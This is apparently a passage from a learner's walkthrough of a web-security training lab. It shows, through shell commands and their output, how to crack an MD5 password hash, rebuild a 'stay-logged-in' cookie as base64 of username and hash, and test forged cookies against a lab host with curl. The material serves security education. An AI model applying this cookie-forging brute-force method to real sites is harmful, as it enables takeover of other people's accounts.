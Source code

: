 > I need to use `--force` swicht due to i was using the `Windows Subsistem for Linux WSL2`  (I know that maybe you hate me now :D ) 

It only tooks about 2 min crack the hash, identify that `peter` is the password.

In summary we need to bruteforce the credentials in the cookie section instesad of the initial authentication method.  But to achieve it we need apply md5 hash to all guesses we use. So I use the  `md5sum`  command:

## Foothold

To check that works correctly I apply the `MD5` hash to the `peter` password. The `md5sum` recive a file like argument, but instead of save `peter` in a file, I use the notation `<()` to send it.

```shell
$ md5sum <(echo -n peter) 
51dc30ddc473d43a6011e9ebba6ca770  /dev/fd/63
```

>I only need the hash  (after the hash is the file descriptor, it I would use a exist file , here apperars the file name)

Now use `cut` to split the output with a space and get only the hash.
```shell
$ md5sum <(echo -n peter) | cut -d " " -f1 
51dc30ddc473d43a6011e9ebba6ca770
```

Also note that the hash is exactly the hash that I cracked before.

If i apply the `base64` to the hash I have to obtain the same cookie that the browser get when I log in with `wiener:peter` credentials:

```shell
$ echo -n "wiener:51dc30ddc473d43a6011e9ebba6ca770" | base64                                                                                         d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```

Now I am gonna test the GET request to `/my-account` with a correct and an incorrec cookie, to check what I get in the response. 

```shell

# with the correct cookie to wiener:peter credentials:

$ curl -s -w "%{http_code}\n%{time_total}" "https://0ad600c1041091cec0af562300ca008b.web-security-academy.net/my-account" -H "Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw"                                                                                                       <!DOCTYPE html>                                                                                                                                             <html>                                                                                                                                                          <head>
...SNIP...
            </section>                                                                                                                                              </div>                                                                                                                                                  </body>                                                                                                                                                 </html>                                                                                                                                                     200                                                                                                                                                         0.778732⏎ 

# Now with a invalid cookie
$ curl -s -w "%{http_code}\n%{time_total}" "https://0ad600c1041091cec0af562300ca008b.web-security-academy.net/my-account" -H "Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllY"                                                                                                                  302                                                                                                                                                         0.792953⏎  
```